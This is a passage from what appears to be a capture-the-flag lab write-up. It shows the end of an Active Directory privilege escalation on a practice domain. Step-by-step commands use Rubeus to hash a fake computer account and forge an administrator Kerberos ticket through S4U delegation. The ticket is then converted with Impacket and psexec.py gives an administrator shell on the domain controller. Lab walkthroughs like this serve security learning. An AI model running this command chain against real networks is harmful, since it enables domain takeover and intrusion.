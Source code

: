 ’ll use Rubeus to get the hash of my fake computer account:
`*Evil-WinRM* PS C:\programdata> .\Rubeus.exe hash /password:0xdf0xdf123 /user:0xdfFakeComputer /domain:support.htb`

I need the one labeled rc4_hmac, which I’ll pass to Rubeus to get a ticket for administrator:
`*Evil-WinRM* PS C:\programdata> .\Rubeus.exe s4u /user:0xdfFakeComputer$ /rc4:B1809AB221A7E1F4545BD9E24E49D5F4 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt`

I’ll grab the last ticket Rubeus generated, and copy it back to my machine, saving it as ticket.kirbi.b64, making sure to remove all spaces. I’ll base64 decode it into ticket.kirbi:
`base64 -d ticket.kirbi.b64 > ticket.kirbi`

Now I need to convert it to a format that Impact can use:
`ticketConverter.py ticket.kirbi ticket.ccache`

I can use this to get a shell using psexec.py:
`KRB5CCNAME=ticket.ccache python3 psexec.py support.htb/administrator@dc.support.htb -k -no-pass`

And grab root.txt!

